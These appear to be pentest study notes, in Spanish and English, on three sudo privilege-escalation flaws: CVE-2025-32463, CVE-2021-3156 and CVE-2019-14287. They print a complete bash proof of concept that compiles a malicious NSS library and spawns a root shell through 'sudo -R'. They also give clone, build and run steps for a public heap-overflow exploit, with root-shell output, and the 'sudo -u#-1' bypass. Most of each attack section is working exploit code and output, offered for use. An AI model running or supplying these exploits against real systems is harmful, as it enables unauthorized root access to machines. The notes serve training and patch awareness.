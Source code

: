 
## CVE-2025-32463

### 📌 Resumen rápido

**CVE-2025-32463** es una vulnerabilidad crítica en **sudo 1.9.14 – 1.9.17** que permite a un usuario local obtener **privilegios root** usando la opción `--chroot` (`-R`). CVSS **3.1 = 9.3 (Critical)**.  
**Solución recomendada:** actualizar a **sudo ≥ 1.9.17p1** lo antes posible.

---

### 🔎 ¿Por qué importa?

Una modificación introducida en sudo 1.9.14 hace que la resolución de rutas y la lectura de ciertos ficheros ocurra **dentro** del entorno `chroot` **antes** de evaluar sudoers, lo que permite a un atacante colocar archivos de configuración y librerías maliciosas que se cargan con privilegios, resultando en escalada a root.

---

### ⚠️ Versión afectada

- **Vulnerables:** `sudo 1.9.14` — `sudo 1.9.17`
    
- **No vulnerables:** versiones anteriores a `1.9.14` (que no soportan `chroot`) y versiones parcheadas `≥ 1.9.17p1`.
    

---

### ✅ Comprobaciones rápidas

Comprobar versión de sudo:

```bash
sudo --version
```

### Explotación:

Ejecutar este script bash y obtendremos root en versiones sudo vulnerables.

```bash
#!/bin/bash
# sudo-chwoot.sh
# CVE-2025-32463 – Sudo EoP Exploit PoC by Rich Mirch
#                  @ Stratascale Cyber Research Unit (CRU)
STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1

if [ $# -eq 0 ]; then
    # If no command is provided, default to an interactive root shell.
    CMD="/bin/bash"
else
    # Otherwise, use the provided arguments as the command to execute.
    CMD="$@"
fi

# Escape the command to safely include it in a C string literal.
# This handles backslashes and double quotes.
CMD_C_ESCAPED=$(printf '%s' "$CMD" | sed -e 's/\\/\\\\/g' -e 's/"/\\"/g')

cat > woot1337.c<<EOF
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/sh", "sh", "-c", "${CMD_C_ESCAPED}", NULL);
}
EOF

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}
```

Más info sobre la vulnerabilidad: https://www.upwind.io/feed/cve%E2%80%912025%E2%80%9132463-critical-sudo-chroot-privilege-escalation-flaw

Más info en POC :  https://github.com/pr0v3rbs/CVE-2025-32463_chwoot/

## CVE-2021-3156

One of the latest vulnerabilities for `sudo` carries the CVE-2021-3156 and is based on a heap-based buffer overflow vulnerability. This affected the sudo versions:

- 1.8.31 - Ubuntu 20.04
- 1.8.27 - Debian 10
- 1.9.2 - Fedora 33
- and others

To find out the version of `sudo`, the following command is sufficient:
```shell-session
cry0l1t3@nix02:~$ sudo -V | head -n1

Sudo version 1.8.31
```
The interesting thing about this vulnerability was that it had been present for over ten years until it was discovered. There is also a public [Proof-Of-Concept](https://github.com/blasty/CVE-2021-3156) that can be used for this. We can either download this to a copy of the target system we have created or, if we have an internet connection, to the target system itself.

```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/blasty/CVE-2021-3156.git
cry0l1t3@nix02:~$ cd CVE-2021-3156
cry0l1t3@nix02:~$ make

rm -rf libnss_X
mkdir libnss_X
gcc -std=c99 -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
```
When running the exploit, we can be shown a list that will list all available versions of the operating systems that may be affected by this vulnerability.

```shell-session
cry0l1t3@nix02:~$ ./sudo-hax-me-a-sandwich

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

  manual mode:
    ./sudo-hax-me-a-sandwich <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>
```

We can find out which version of the operating system we are dealing with using the following command:
```shell-session
cry0l1t3@nix02:~$ cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.1 LTS"
```

Next, we specify the respective ID for the version operating system and run the exploit with our payload.

```shell-session
cry0l1t3@nix02:~$ ./sudo-hax-me-a-sandwich 1

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31 ['/usr/bin/sudoedit'] (56, 54, 63, 212)
** pray for your rootshell.. **

# id

uid=0(root) gid=0(root) groups=0(root)
```

## ## Sudo Policy Bypass CVE-2019-14287

Another vulnerability was found in 2019 that affected all versions below `1.8.28`, which allowed privileges to escalate even with a simple command. This vulnerability has the [CVE-2019-14287](https://www.sudo.ws/security/advisories/minus_1_uid/) and requires only a single prerequisite. **It had to allow a user in the `/etc/sudoers` file to execute a specific command**

```shell-session
cry0l1t3@nix02:~$ sudo -l
[sudo] password for cry0l1t3: **********

User cry0l1t3 may run the following commands on Penny:
    ALL=(ALL) /usr/bin/id
```
La sintaxis es (HOST)=(USER) <command> [comando]
Es REQUERIDO que en la parte de usuario ponga ALL asi podremos especificar usuarios por u ID pero en este caso -1 que es donde está el bug.

Thus the ID for the user `cry0l1t3` would be `1005`. If a negative ID (`-1`) is entered at `sudo`, this results in processing the ID `0`, which only the `root` has. This, therefore, led to the immediate root shell.
```shell-session
cry0l1t3@nix02:~$ sudo -u#-1 id

root@nix02:/home/cry0l1t3# id

uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)
```
